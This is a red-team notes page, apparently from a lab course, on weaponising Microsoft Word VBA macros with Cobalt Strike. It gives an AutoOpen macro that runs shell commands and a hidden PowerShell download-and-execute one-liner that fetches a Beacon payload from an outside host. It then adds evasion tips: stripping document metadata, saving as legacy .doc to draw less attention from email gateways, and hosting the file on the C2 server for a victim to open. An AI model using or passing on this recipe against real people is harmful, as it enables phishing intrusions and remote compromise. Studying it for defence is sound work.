 ```yaml
---
description: 09/01/2025
---
```


# Visual Basic For Applications (VBA) Macros

## Introduction

VBA is an implementation of Visual Basic that is very widely used within the Microsoft ecosystem (Microsoft applications included).&#x20;

#### Why does it exist?

It is often used to enhance functionality in Word and Excel for data processing.

The prevalence of macros in the commercial world is a double-edged sword when it comes to leveraging macros for malicious purposes.

#### Not inherently a red flag, but...

One one hand, the presence of a document with embedded macros is not necessarily suspicious.

However, since they are used maliciously by threat actors, they are also given more scrutiny both from technical products (e.g. web/email gateways) and in security awareness training, so most people steer away from them.

## Creating your own VBA Macro (Benign)

**You can create your own VBA Macro within a Word document by going to:**&#x20;

**View -> Macros -> View Macros**.

<figure><img src="../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

We can then place the following code for the macro in order to trigger automatically opening something such as `notepad.exe` when the document is opened using the name `AutoOpen`:

```visual-basic
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub
```

<figure><img src="../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

`wscript` is the Windows Script Host, which is designed for automation. The "shell" method provides the ability to execute OS commands.

To test the above code, we can use the play/pause/stop buttons.

## Creating a Malicious Macro

Now that we know how to create a VBA macro for Word, we need to replace `notepad` with a Beacon payload instead.

The easiest to leverage is the PowerShell payload within Cobalt Strike.&#x20;

Go to **Attacks** -> **Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener.

The URI path can be anything, but I will keep it as `/a`.&#x20;

<figure><img src="../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

This will generate a PowerShell payload and host it on the Team Server so that it can be _<mark style="color:yellow;">**downloaded over HTTP and executed in memory**</mark>_.&#x20;

After selecting _**Launch**_, Cobalt Strike will generate the PowerShell one-liner that will do just that.

<figure><img src="../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

**Simply copy/paste this into the VBA Macro editor:**

```
Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""
```

**Now, replace `notepad` with a Beacon payload instead:**

<figure><img src="../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
:bulb:The `URI` PATH can be anything, but I kept it as /a or /b, it doesn't matter.
{% endhint %}

#### OPSEC Consideration

To prepare the document for delivery, go to _**File > Info > Inspect Document > Inspect Document**_, which will bring up the Document Inspector. Click _Inspect_ and then _Remove All_ next to _Document Properties and Personal Information_.  This is to prevent the username on your system being embedded in the document.

**Once complete, you should see the following:**

<figure><img src="../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

### Preparing the Document and Attaching Malicious Macro

Next, go to _**File > Save As**_ and save it to a location of your choice.  Give it any filename, but in the _Save as type_ dropdown, change the format from `.docx` to _Word 97-2003 (`.doc`)_. &#x20;

We do this because you can't save macros inside a `.docx` and there's a stigma around the macro-enabled `.docm` extension (e.g. the thumbnail icon has a huge `!` and some web/email gateway block them entirely). &#x20;

I find that this legacy `.doc` extension is the best compromise.

{% hint style="info" %}
:bulb:`.docm` works just fine too, but `.doc` attracts less attention.
{% endhint %}

<figure><img src="../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

### Uploading to our C2

Now that our document is now housing our embedded macro, we need to upload this file to the Team Server.

We can do this by going to **Site Management -> Host File (then select the document)**.

**Your configuration should look something like this:**

<figure><img src="../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

## Awaiting for Our Victim to Open the Maliciously-Embedded Macro Word Document

Let's target our next victim, `bfarmer`.

<figure><img src="../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

Upon waiting for Bob to open the file, Edge will automatically download the document. Since the file is being downloaded via a browser, it will have the MOTW, so when it is first opened, it will first be in Protected View.

<figure><img src="../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

Once opened, we now have Bob as a new victim!
